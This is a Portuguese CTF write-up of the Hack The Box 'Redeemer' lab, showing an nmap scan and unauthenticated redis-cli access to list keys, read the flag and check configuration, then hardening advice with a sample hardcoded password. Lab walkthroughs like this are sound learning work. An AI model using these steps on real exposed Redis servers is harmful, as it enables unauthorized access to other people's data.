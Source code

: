 ## HTB: Redeemer
### 📋 Informações da Máquina

 - Plataforma: Hack the Box
 - Máquina: Redeemer
 - Dificuldade: Muito Fácil
 - Ip: 10.129.35.253


## ⚙️ 0. Resumo
Essa máquina ainda é muito fácil, pois estou no starting point do hack the box, essa maquina envolve a exploração da falta de autenticação de um serviço exposto redis exposto na rede

### ⚠️ 0.1 VULNERABILIDADES IDENTIFICADAS

- Serviço Redis exposto na internet

- Ausência total de autenticação

- Porta 6379 acessível publicamente

- Versão desatualizada (5.0.7)


## 🔍 1. ENUMERAÇÃO
### 1.1 Varredura de Portas

Como já tinha informação sobre o serviço Redis, fiz um scan direto na porta padrão:

```bash
nmap -sV -p 6379 10.129.35.253
```

📊 Resultado:

```bash
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value 5.0.7
```  

✅ Conclusão: Serviço Redis encontrado e exposto publicamente.


## ⚡ 2. EXPLORAÇÃO
### 2.1 Conexão com o Redis

```bash
redis-cli -h 10.129.35.253
```

### 2.2 Enumeração de Dados

Dentro do Redis, usei comandos para explorar o banco:
redis
```bash
KEYS *
```

🎯 Resultado:

```bash
1) "flag"
2) "stor"
3) "numb"
4) "temp"
```

### 2.3 Captura da Flag
Usei um comando pra extrair o conteudo da key "flag"
```bash
GET flag
```

🏴 Flag Capturada:
```bash
flag{...}
```

## 🔎 3. PÓS-EXPLORAÇÃO
### 3.1 Análise de Configuração

Verifiquei as configurações do serviço:
```bash
CONFIG GET requirepass
CONFIG GET bind
INFO server
```


📝 Configurações Perigosas Encontradas:

  ❌ Sem senha (requirepass vazio)

  🌐 Bind em todas interfaces (0.0.0.0)

  🔓 Modo protegido desativado


### 3.2 Dados Adicionais Encontrados
```bash
GET stor
GET numb  
GET temp
```


## 🛡️ 4. RECOMENDAÇÕES DE SEGURANÇA

- 1. Configurar senha forte
echo "requirepass Su@SenhaF0rt3!2024" >> /etc/redis/redis.conf

- 2. Restringir acesso
echo "bind 127.0.0.1" >> /etc/redis/redis.conf

- 3. Ativar modo protegido
echo "protected-mode yes" >> /etc/redis/redis.conf

- 4. Reiniciar serviço
systemctl restart redis-server


## 🎯 5. CONCLUSÃO
#### Resumo do Ataque:

- Complexidade: Baixa

- Impacto: Alto (dados expostos)

#### Lições Aprendidas:

  1. Nunca exponha serviços de banco diretamente na internet

  2. Autenticação é OBRIGATÓRIA para qualquer serviço

  3. Firewalls previnem exposição acidental

  4. Versões atualizadas têm menos vulnerabilidades

#### Reflexão Pessoal:

"Esta máquina reforçou que a falta de autenticação é um dos erros mais comuns e perigosos. Senhas fortes são essenciais, mas a prevenção começa na arquitetura - serviços internos não devem ser expostos publicamente!"

✅ Máquina Finalizada com Sucesso!

Write-up por: Luiz A. | Hack The Box - Redeemer | 15/10/25
